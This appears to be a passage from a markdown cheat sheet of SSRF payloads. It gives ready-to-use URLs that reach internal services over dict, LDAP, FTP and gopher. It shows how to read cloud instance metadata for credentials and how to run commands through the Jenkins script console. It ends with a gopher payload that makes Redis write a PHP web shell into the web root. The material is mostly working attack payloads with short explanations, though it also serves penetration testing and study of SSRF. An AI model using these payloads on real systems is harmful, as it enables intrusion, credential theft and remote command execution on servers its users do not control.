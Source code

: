 ### Dict Protocol
```
dict://127.0.0.1:6379/info
```
The Dict protocol can be used to:
- Retrieve definitions from dictionary servers
- Potentially interact with other services that respond to simple text commands

### LDAP Protocol
```
ldap://127.0.0.1:389
```
Can be used to query LDAP directories, potentially revealing sensitive directory information.

### FTP Protocol
```
ftp://anonymous:anonymous@127.0.0.1:21
```
Allows interaction with FTP servers to list directories or retrieve files.

### Redis Protocol
Using Gopher to interact with Redis:
```
gopher://127.0.0.1:6379/_SET%20ssrf_test%20%22Hello%20from%20SSRF%22
```

## Command Injection Through SSRF

SSRF can lead to command injection in several scenarios:

### Exploiting Internal Services
1. **Metadata Services in Cloud Environments**: 
```
http://169.254.169.254/latest/user-data/
```
Cloud instance metadata may contain initialization scripts with credentials.

2. **Jenkins Exploitation**:
```
http://internal-jenkins:8080/script
```
Access to Jenkins Script Console can lead to direct command execution:
```
http://internal-jenkins:8080/script?script=println("cmd%20/c%20whoami".execute().text)
```

3. **Service-Specific Exploits**:

**Exploiting Redis via SSRF with Gopher**:
```
gopher://127.0.0.1:6379/_%0D%0A%0D%0ACONFIG%20SET%20dir%20/var/www/html/%0D%0A%0D%0ACONFIG%20SET%20dbfilename%20shell.php%0D%0A%0D%0ASET%20payload%20"<?php%20system($_GET['cmd']);%20?>"%0D%0A%0D%0ASAVE%0D%0A%0D%0AQUIT%0D%0A
```
This creates a webshell via Redis.
